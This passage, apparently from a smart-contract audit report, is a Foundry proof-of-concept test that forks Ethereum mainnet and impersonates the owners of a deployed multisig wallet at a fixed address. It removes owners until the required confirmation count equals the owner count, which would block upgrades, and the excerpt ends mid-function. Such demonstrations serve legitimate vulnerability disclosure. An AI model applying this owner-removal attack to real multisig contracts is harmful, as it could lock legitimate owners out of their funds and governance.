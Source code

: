 ```solidity
    fallback() external payable;
    receive() external payable;
}

contract POC is Test {
    IMultiSigWallet c = IMultiSigWallet(payable(0x2028834B2c0A36A918c10937EeA71BE4f932da52));

    function setUp() public {
        vm.createSelectFork("https://rpc.ankr.com/eth");
    }

    function testRemoveReplaceOwnersBlockingUpgradesPOC() public { 
        address[] memory owners = c.getOwners();
        console.log("Before remove, Owners:");
        for(uint i; i < owners.length; i++) {
            console.log("%d. %s", i, owners[i]);
        }

        uint required = c.required();
        uint initial_tx_id;
        for(uint i;i < owners.length - required; i++) {
            vm.startPrank(owners[i], owners[i]);
            uint _tx_id = c.submitTransaction(address(c), 0, abi.encodeWithSignature("removeOwner(address)", owners[i]));
            console.log("Submitted tx with id : %d to remove owner : %s", _tx_id, owners[i]);
            if (i == 0) {
                initial_tx_id = _tx_id;
            }
            vm.stopPrank();
        }

        console.log("Confirming transaction %d", initial_tx_id);
        vm.prank(owners[1]);
        c.confirmTransaction(initial_tx_id);
        vm.prank(owners[2]);
        c.confirmTransaction(initial_tx_id);
        vm.prank(owners[3]);
        c.confirmTransaction(initial_tx_id);
        console.log("Owner0 is removed");

        console.log("Confirming transaction %d", initial_tx_id + 1);
        vm.prank(owners[4]);
        c.confirmTransaction(initial_tx_id + 1);
        vm.prank(owners[2]);
        c.confirmTransaction(initial_tx_id + 1);
        vm.prank(owners[3]);
        c.confirmTransaction(initial_tx_id + 1);
        console.log("Owner1 is removed");

        console.log("prev required: %d", required);
        console.log("prev #owners : %d", owners.length);

        owners = c.getOwners();
        require(required == owners.length, "required is not equal to the number of owners");

        console.log("After remove, Owners:");
        for(uint i; i < owners.length; i++) {
            console.log("%d. %s", i, owners[i]);
        }        

        required = c.required();
        console.log("new required: %d", required);
        console.log("new #owners : %d", owners.length);
```